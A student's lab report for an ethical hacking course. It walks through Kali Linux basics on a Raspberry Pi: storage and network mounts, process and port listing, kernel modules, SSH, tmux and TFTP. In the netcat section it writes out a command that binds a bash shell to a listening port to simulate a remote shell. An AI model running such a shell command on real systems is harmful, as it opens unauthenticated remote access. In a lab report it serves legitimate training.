# Lab 1 – Introduction to the Lab Environment
  

**Course:** Ethical Hacking (GDT3CR)  

**Platform:** Raspberry Pi 4  

**Operating System:** Kali Linux  

**User:** freesensei  
  

---
  

# 1. Storage Management and Network Shares
  

## 1.1 USB Mount Point Identification
  

To understand how Linux handles external storage devices, I examined where USB devices are mounted.
  

### Tools Used
  

* `lsblk`

* `mount`

* `df -T`
  

### Findings
  

The external device (`sda1`) appeared in the device tree using:
  

```bash

lsblk

```
  

On Debian-based systems such as Kali Linux, removable media is automatically mounted under:
  

```

/media/<username>/<label>

```
  

In my case:
  

```

/media/freesensei/<device-label>

```
  

This is important in ethical hacking scenarios when working with:
  

* Bootable media

* Forensic USB drives

* Data extraction from physical devices
  


  

---
  

## 1.2 Mounting a Windows Network Share (SMB/CIFS)
  

A shared folder on a Windows host (`kali-share`) was mounted using the SMB/CIFS protocol.
  

SMB is implemented in Linux through Samba.
  

### Mount Command
  

```bash

sudo mount -t cifs //10.0.0.140/kali-share /mnt/smb-share \

-o username=<USERNAME>,password=<PASSWORD>

```
  

### Verification
  

```bash

mount | grep smb-share

df -T /mnt/smb-share

```




### Network Interface Management
  

Since this system runs on a Raspberry Pi, networking is handled by NetworkManager.
  

If manual activation is required:
  

```bash

sudo nmcli networking on

```
  

or
  

```bash

sudo systemctl start NetworkManager

```
  

---
  

# 2. System Analysis
  

## 2.1 Root-Owned Processes
  

Many critical services in Linux run as root because they require elevated privileges (e.g., networking, scheduling, system daemons).
  

### Command Used
  

```bash

ps aux | grep root | grep -E '/sbin|/usr/sbin'

```
  

This filters processes whose binaries reside in administrative directories:
  

* `/sbin`

* `/usr/sbin`

  


  

---
  

## 2.2 Listening Ports and Services
  

To identify active listening ports:
  

### TCP
  

```bash

ss -tln

```
  

### UDP
  

```bash

ss -uln

```
  

Results were verified using:
  

```bash

netstat -a --tcp

netstat -a --udp

```
  

### Observed Listening Ports
  

**TCP:**
  

* 22 (SSH)

* 1883 (MQTT)
  

**UDP:**
  

* 68 (DHCP client)

* 500 (ISAKMP)

* 4500 (IPsec NAT-T)

  


  

---
  

# 3. Kernel and Hardware Analysis
  

## 3.1 Kernel Version
  

The running kernel version was identified using:
  

```bash

uname -r

```
  

**Result:**  

Linux kernel `6.12.34` (aarch64 architecture)

  

  

---
  

## 3.2 CPU Specifications
  

Hardware information was retrieved from:
  

```bash

cat /proc/cpuinfo

```
  

### System Details
  

* Processor: Broadcom BCM2711

* Architecture: ARM64 (aarch64)

* Cores: 4 (Cortex-A72)

* Model: Raspberry Pi 4 Model B Rev 1.4

* BogoMIPS: ~108 per core

  

  

---
  

## 3.3 Boot Process Analysis
  

Boot logs were examined using:
  

```bash

dmesg

```
  

and
  

```bash

cat /var/log/boot.log

```
  

These logs provide information about:
  

* Kernel initialization

* Driver loading

* Service startup results
 

---
  

# 4. Kernel Modules and SSHFS
  

## 4.1 Kernel Module Management
  

### List Loaded Modules
  

```bash

lsmod

```
  

### Load a Module
  

```bash

sudo modprobe <module_name>

```
  

### Remove a Module

  

```bash

sudo modprobe -r <module_name>

```

  

Modules are listed in:

  

```


/proc/modules

```
  

---
  

## 4.2 FUSE and SSHFS
  

SSHFS is a FUSE-based filesystem client.
  

FUSE = Filesystem in Userspace.
  

### Verify FUSE Module
  

```bash

lsmod | grep fuse

```
  

If not loaded:
  

```bash

sudo modprobe fuse

```
  

---
  

## 4.3 Mounting via SSHFS


Home directory mounted locally:
  

```bash

sshfs freesensei@127.0.0.1:/home/freesensei ~/mnt-home

```
  

Verify:
  

```bash

mount | grep mnt-home

```
  

Unmount:
  

```bash

fusermount -u ~/mnt-home

```

  



---
  

### SSHFS Advantages and Disadvantages
  

| Feature       | Advantages        | Disadvantages                |
| ------------- | ----------------- | ---------------------------- |
| Security      | Encrypted via SSH | Higher CPU usage             |
| Access        | No root required  | slower for many small files  |
| Configuration | Minimal setup     | May hang if connection drops |
  

---
  

# 5. Kernel Source Exploration
  

Kernel source installed:
  

```bash

sudo apt install linux-source

cd /usr/src

```
  

Configuration examined using:
  

```bash

sudo make menuconfig

```
  

### Filesystem Support
  

**Built-in:**
  

* ext4

* F2FS
  

**Modular:**
  

* XFS

* Btrfs

* JFS

* GFS2

* OCFS2

* NILFS2



  

---
  

### Kernel Compilation Commands
  

```bash

make

make modules

sudo make modules_install

sudo make install

```
  

---
  

# 6. Remote Access and Terminal Multiplexing
  

## 6.1 SSH Service
  

Checked status:
  

```bash

systemctl status ssh

```
  

Start/Stop:
  

```bash

sudo systemctl start ssh

sudo systemctl stop ssh

sudo systemctl restart ssh

sudo systemctl enable ssh

```
 

Port 22 confirmed listening via `ss -tln`.

  


  
---
  

## 6.2 Tmux


tmux was used for persistent terminal sessions.
  

### Create Session
  

```bash

tmux new -s labbsession

```
  

### Detach


```

Ctrl + B, then D

```


### List Sessions


```bash

tmux ls

```
  

### Reattach
  

```bash

tmux attach -t labbsession

```
  

  

---
  

# 7. Netcat Shell
  

Netcat was used to simulate a reverse shell scenario.
  

### Start Listener
  

```bash

nc -lvp 4444 -e /bin/bash

```
  

### Connect as Client
  

```bash

nc <IP_ADDRESS> 4444

```
  

  

---
  

# 8. TFTP
  

TFTP was tested for file transfer.
  

### Create Test File
  

```bash

echo "Test file" > /tmp/tftpfile.txt

```


### Protocol Information


* Protocol: UDP

* Port: 69


### Advantages


* Lightweight

* Simple configuration


### Disadvantages


* No encryption

* No authentication

* Not suitable for secure environments


---


# 9. Lab Reflection


## Relevance


The lab was highly relevant for understanding:


* Kali Linux fundamentals

* Network service exposure

* Kernel architecture

* Remote access tools


## Suggested Improvements


Providing a pre-structured Markdown template would reduce the risk of students missing sub-questions and improve report consistency.
